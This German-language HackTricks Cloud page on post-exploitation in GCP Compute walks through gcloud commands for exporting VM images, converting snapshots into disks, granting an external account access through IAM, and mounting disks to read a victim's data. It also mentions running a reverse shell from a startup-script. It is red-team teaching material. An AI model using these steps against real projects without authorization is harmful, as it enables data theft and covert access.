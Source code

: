 # GCP - Compute Post Exploitation

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

## Compute

Für weitere Informationen zu Compute und VPC (Netzwerk) überprüfen Sie:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Bilder lokal exportieren & inspizieren

Dies würde einem Angreifer ermöglichen, **auf die Daten in bereits vorhandenen Bildern zuzugreifen** oder **neue Bilder von laufenden VMs zu erstellen** und auf deren Daten zuzugreifen, ohne Zugriff auf die laufende VM zu haben.

Es ist möglich, ein VM-Bild in einen Bucket zu exportieren und es dann herunterzuladen und lokal mit dem Befehl zu mounten:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Um diese Aktion auszuführen, benötigt der Angreifer möglicherweise Berechtigungen für den Speicher-Bucket und auf jeden Fall **Berechtigungen für cloudbuild**, da es der **Dienst** ist, der aufgefordert wird, den Export durchzuführen.\
Darüber hinaus müssen für das Funktionieren die Berechtigungen des codebuild SA und des compute SA privilegiert sein.\
Der cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` benötigt:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

Und der SA `<project-id>-compute@developer.gserviceaccount.com` benötigt:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Exportieren & Überprüfen von Snapshots & Festplatten lokal

Es ist nicht möglich, Snapshots und Festplatten direkt zu exportieren, aber es ist möglich, **einen Snapshot in eine Festplatte, eine Festplatte in ein Image** zu transformieren und gemäß der **vorherigen Sektion** dieses Image zu exportieren, um es lokal zu überprüfen.

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Überprüfen eines Images durch Erstellen einer VM

Mit dem Ziel, auf die **Daten, die in einem Image gespeichert sind** oder innerhalb einer **laufenden VM**, von wo aus ein Angreifer **ein Image erstellt hat,** zuzugreifen, ist es möglich, einem externen Konto Zugriff auf das Image zu gewähren:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
und dann eine neue VM daraus erstellen:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Wenn Sie Ihrem externen Konto keinen Zugriff über das Image gewähren konnten, könnten Sie eine VM mit diesem Image im Projekt des Opfers starten und **die Metadaten dazu bringen, eine Reverse-Shell auszuführen**, um auf das Image zuzugreifen, indem Sie den Parameter hinzufügen:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspect a Snapshot/Disk attaching it to a VM

Mit dem Ziel, auf die **Daten, die auf einem Disk oder einem Snapshot gespeichert sind, zuzugreifen, könnten Sie den Snapshot in einen Disk, einen Disk in ein Image umwandeln und die vorherigen Schritte befolgen.**

Oder Sie könnten **einem externen Konto Zugriff** auf den Disk gewähren (wenn der Ausgangspunkt ein Snapshot ist, gewähren Sie Zugriff auf den Snapshot oder erstellen Sie einen Disk daraus):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Hängen Sie die Festplatte** an eine Instanz an:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Mounten Sie das Laufwerk innerhalb der VM:

1.  **SSH in die VM**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **Identifizieren Sie das Laufwerk**: Sobald Sie in der VM sind, identifizieren Sie das neue Laufwerk, indem Sie die Laufwerksgeräte auflisten. Typischerweise finden Sie es als `/dev/sdb`, `/dev/sdc` usw.
3. **Formatieren und Mounten Sie das Laufwerk** (wenn es sich um ein neues oder rohes Laufwerk handelt):
*   Erstellen Sie einen Mount-Punkt:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   Mounten Sie das Laufwerk:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

Wenn Sie **keinen Zugriff auf ein externes Projekt** für den Snapshot oder das Laufwerk gewähren können, müssen Sie möglicherweise diese Aktionen **innerhalb einer Instanz im selben Projekt wie der Snapshot/das Laufwerk** durchführen.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
